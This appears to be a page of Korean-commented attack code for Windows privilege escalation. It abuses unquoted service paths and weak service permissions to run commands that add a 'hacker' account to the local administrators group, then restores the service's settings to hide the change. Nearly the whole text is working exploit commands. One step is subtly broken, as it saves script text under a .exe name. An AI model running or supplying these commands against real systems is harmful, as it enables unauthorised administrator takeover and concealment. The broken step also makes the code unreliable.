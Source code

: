 
```powershell
# PowerShell로 Unquoted Service Path 익스플로잇
# 1. 취약한 서비스 찾기
Get-WmiObject win32_service | Where-Object {$_.StartMode -eq "Auto" -and $_.PathName -notlike "`"*" -and $_.PathName -like "* *"} | Select-Object Name, PathName

# 2. 악성 실행 파일 생성 (PowerShell)
$payload = @'
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
public class Program {
    public static void Main() {
        Process.Start("cmd.exe", "/c net user hacker password123 /add & net localgroup administrators hacker /add");
    }
}
"@
[Program]::Main()
'@

# 3. 실행 파일로 저장
$payload | Out-File -FilePath C:\Program.exe -Encoding ASCII

# 4. 서비스 재시작
Restart-Service VulnerableService
```

### 🔧 Service Permissions 익스플로잇

```cmd
:: 1. 서비스 권한 확인
accesschk.exe -uwcqv %USERNAME% VulnerableService

:: 2. 서비스 설정 변경 권한이 있는 경우
:: 서비스 실행 파일 경로를 악성 파일로 변경

:: 3. 악성 실행 파일 생성
echo net user hacker password123 /add > C:\Windows\Temp\evil.bat
echo net localgroup administrators hacker /add >> C:\Windows\Temp\evil.bat

:: 4. 서비스 설정 변경
sc config VulnerableService binpath= "C:\Windows\Temp\evil.bat"

:: 5. 서비스 재시작
sc stop VulnerableService
sc start VulnerableService

:: 6. 원래 설정으로 복구 (흔적 제거)
sc config VulnerableService binpath= "원래경로"
```

